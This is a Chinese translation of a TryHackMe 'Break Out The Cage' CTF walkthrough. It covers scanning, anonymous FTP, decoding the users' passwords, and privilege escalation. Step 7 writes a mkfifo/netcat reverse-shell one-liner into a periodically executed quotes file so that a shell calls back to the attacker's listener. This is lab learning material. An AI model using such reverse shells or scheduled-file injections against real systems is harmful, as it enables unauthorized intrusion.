# TryHackMe:打破牢笼 1-报道

> 原文：<https://infosecwriteups.com/tryhackme-break-out-the-cage-1-write-up-3b41acde0475?source=collection_archive---------3----------------------->


简单级 CTF 挑战

无需等待；连接到您的 OpenVPN 网络并加入[房间](https://tryhackme.com/room/breakoutthecage1)。

## 任务 1 调查！

1.  部署机器后，您将在一分钟内获得您的机器 IP。让我们从通过 Nmap 扫描机器开始。

```
nmap -sV -sC -A <machine_ip>
```



Nmap 扫描结果

2.让我们通过 Gobuster 工具搜索 HTTP 中隐藏的扩展。

```
gobuster dir -u http://<machine_ip> -w <wordlist>
```



Gobuster 扫描结果

3.因为在 HTTP 服务器中什么也找不到，所以让我们打开 FTP 服务器并以匿名身份登录。



ftp 服务器

4.我们可以看到一个名为“dad_tasks”的文件，其中有一个看起来经过编码的字符串。经过多次不同的尝试，我能够使用[赛博咖啡馆](https://gchq.github.io/CyberChef/)解码字符串。首先是 base64，然后是 Vigenere 密码。最后，我们会得到韦斯顿的密码。



韦斯顿的密码

5.我们成功地以韦斯顿的名义拿到了外壳。



6./opt 目录中有一个可疑的点文件。让我们检查一下



7.在特定的时间间隔，我们从凯奇那里得到一些信息。这些引用存储在。报价文件。我们可以删除所有这些引号，并添加一个反向 shell 脚本。

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <system_ip> 1234 >/tmp/f' > .quotes
```



8.同时，我们必须通过 Netcat 在另一个终端上监听。

```
nc -lvp 1234
```

成功拿到了反向壳，用户是凯奇。



9.“Super_Duper_Checklist”包含用户标志。



用户标志

10.在“电子邮件备份”文件夹中，有三封电子邮件。第三封邮件给了我们一张看起来加密了的纸条。



11.加密的信息可以通过 Vignenere Decode 在 CyberChef 中进行解码。关键是“面子”,因为在那封邮件中，它被强调了。破解后，我们会得到 root 的密码。



12.将用户更改为 root。

```
su root
```



根用户

13.根目录中包含两个电子邮件备份。第二封电子邮件包含根标志。



根标志

嘣！！！我们已经完成了房间。

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)和我联系。